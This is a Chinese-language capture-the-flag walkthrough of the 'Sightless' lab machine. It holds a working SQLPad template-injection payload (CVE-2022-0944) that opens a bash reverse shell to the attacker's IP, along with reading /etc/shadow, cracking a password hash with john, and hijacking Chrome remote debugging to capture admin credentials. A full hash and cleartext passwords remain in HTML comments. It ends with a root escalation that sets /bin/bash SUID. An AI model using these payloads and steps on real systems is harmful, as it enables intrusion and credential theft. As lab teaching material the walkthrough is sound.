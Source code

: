 # Sightless

> 本机 IP: 10.11.11.12
>
> 目标 IP: 10.11.11.11
>
> 参考 [wp1](https://blog.csdn.net/m0_52742680/article/details/142123113) [wp2](https://loghmariala.github.io/posts/Sightless/)

```shell
$ nmap -sSVC 10.11.11.11
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings:
|   GenericLines:
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.11.11.11]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Sightless.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)

$ vi /etc/hosts
[+] 10.11.11.11 sightless.htb
```

访问 sightless.htb，其中有一个跳转到 sqlpad.sightless.htb

```shell
$ vi /etc/hosts
[+] 10.11.11.11 sqlpad.sightless.htb
```

访问 http://sqlpad.sightless.htb/ 是一个 SQLPad 组件，搜索存在漏洞 CVE-2022-0944，6.10.1 之前版本存在注入漏洞，可远程执行代码

<!-- [wp](https://blog.csdn.net/m0_52742680/article/details/142123113)，burp抓包可看具体版本为6.10.0 -->

Linux 监听:`nc -lvvp 2333` -> 连接 -> Driver:MySQL -> Database 输入 payload 反弹 shell:

```sql
-- Database 中输入后保存
{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.11.11.12/2333 0>&1"') }}
```

反弹成功后显示权限为 root

```shell
# 在 docker 中
/var/lib/sqlpad $ cd /

/ $ ls -al
-rwxr-xr-x   1 root root    0 Aug  2 09:30 .dockerenv
-rwxr-xr-x   1 root root  413 Mar 12  2022 docker-entrypoint

/ $ ls -alh /.dockerenv
-rwxr-xr-x 1 root root 0 Aug  2 09:30 /.dockerenv
```

有文件`.dockerenv`和`docker-entrypoint`，判断在 docker 中

```shell
$ cat /etc/passwd
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash

$ cat /etc/shadow
node:!:19053:0:99999:7:::
michael:⬛⬛⬛:19860:0:99999:7:::
```

<!-- 复制 michael 的密码 hash 值`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`到文件`hash`中进行解密 -->

复制 michael 的密码 hash 值`⬛⬛⬛`到文件`hash`中进行解密

<!-- ```shell
$ john hash -w=/usr/share/wordlists/rockyou.txt
...
insaneclownposse (?)
...
``` -->

```shell
$ john hash -w=/usr/share/wordlists/rockyou.txt
...
⬛⬛⬛ (?)
...
```

<!-- ssh 使用 michael:insaneclownposse 登录成功 -->

ssh 使用 michael:⬛⬛⬛ 登录成功

```shell
michael@sightless:~$ ls
user.txt
```

## Privilege Escalation

```shell
# 无果
# michael@sightless:~$ sudo -l
# michael@sightless:~$ find / -perm -u=s -f type 2>/dev/null
# 还有一个用户 john，UID=1001 但是没权限

michael@sightless:~$ ss -tlnp
...
LISTEN    0    511    127.0.0.1:8080    0.0.0.0:*
LISTEN    0    10     127.0.0.1:18888   0.0.0.0:*
...
```

Send-Q=10 的端口后面会用，先将 8080 转发至本地

```shell
# local
$ ssh -L 8080:127.0.0.1:8080 michael@sightless.htb -N -f

# -N：不执行远程命令
# -f：在后台运行SSH会话
```

访问 http://127.0.0.1:8080/ 到 Froxlor 登录界面，无果

上传 pspy64 查看进程信息

```shell
$ scp /root/Desktop/pspy64 michael@sightless.htb:/tmp

michael@sightless:/tmp$ chmod +x pspy64
michael@sightless:/tmp$ ./pspy64
2024/09/13 07:31:24 CMD: UID=1001  PID=1822   | /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=1768 --no-sandbox --disable-dev-shm-usage --enable-automation --remote-debugging-port=0 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-unix-epoch=-1726211554077008 --launch-time-ticks=276762732 --sh
2024/09/13 07:31:24 CMD: UID=1001  PID=1793   | /opt/google/chrome/chrome --type=utility --utility-sub-type=network.mojom.NetworkService --lang=en-US --service-sandbox-type=none --no-sandbox --disable-dev-shm-usage --use-angle=swiftshader-webgl --use-gl=angle --headless --crashpad-handler-pid=1768 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=3,i,1365604885317938204,13150205076573000667,262144 --disable-features=PaintHolding --variations-seed-version --enable-logging --log-level=0 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1790   | /opt/google/chrome/chrome --type=gpu-process --no-sandbox --disable-dev-shm-usage --headless --ozone-platform=headless --use-angle=swiftshader-webgl --headless --crashpad-handler-pid=1768 --gpu-preferences=WAAAAAAAAAAgAAAMAAAAAAAAAAAAAAAAAABgAAEAAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGAAAAAAAAAAYAAAAAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --use-gl=angle --shared-files --field-trial-handle=3,i,1365604
2024/09/13 07:31:24 CMD: UID=1001  PID=1773   | /opt/google/chrome/chrome --type=zygote --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1768 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1772   | /opt/google/chrome/chrome --type=zygote --no-zygote-sandbox --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1768 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1768   | /opt/google/chrome/chrome_crashpad_handler --monitor-self-annotation=ptype=crashpad-handler --database=/tmp/Crashpad --url=https://clients2.google.com/cr/report --annotation=channel= --annotation=lsb-release=Ubuntu 22.04.4 LTS --annotation=plat=Linux --annotation=prod=Chrome_Headless --annotation=ver=125.0.6422.60 --initial-client-fd=6 --shared-client-connection
2024/09/13 07:31:24 CMD: UID=1001  PID=1763   | /opt/google/chrome/chrome --allow-pre-commit-input --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-logging --headless --log-level=0 --no-first-run --no-sandbox --no-service-autorun --password-store=basic --remote-debugging-port=0 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.org.chromium.Chromium.0ge2G9 data:,
```

进程中开启了谷歌，参考文章[Chrome Remote Debugger Pentesting](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/)，对其他端口进行转发，其中有个 Send-Q=10 端口 18888

```shell
LISTEN    0    10     127.0.0.1:18888   0.0.0.0:*

$ ssh -L 18888:127.0.0.1:18888 michael@sightless.htb -N -f
```

谷歌，访问`chrome://inspect/#devices`

<!-- Devices -> Configure -> localhost:18888 -> Enable port forwarding -> Done -> Remote Target -> Froxlor -> inspect -> 开发者控制台 Network -> index.php -> payload -> admin/ForlorfroxAdmin -->

Devices -> Configure -> localhost:18888 -> Enable port forwarding -> Done -> Remote Target -> Froxlor -> inspect -> 开发者控制台 Network -> index.php -> payload -> admin:⬛⬛⬛

登录进入 Froxlor -> PHP -> PHP-FPM versions -> Create new PHP version -> php-fpm restart command: chmod 4777 /bin/bash -> save -> System -> Settings -> PHP-FPM -> SAVE -> Click here to continue

```shell
# wait a minute
michael@sightless:~$ ls -al /bin/bash
-rwsrwxrwx 1 root root ... /bin/bash
michael@sightless:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cd /root
bash-5.1# ls
root.txt
```
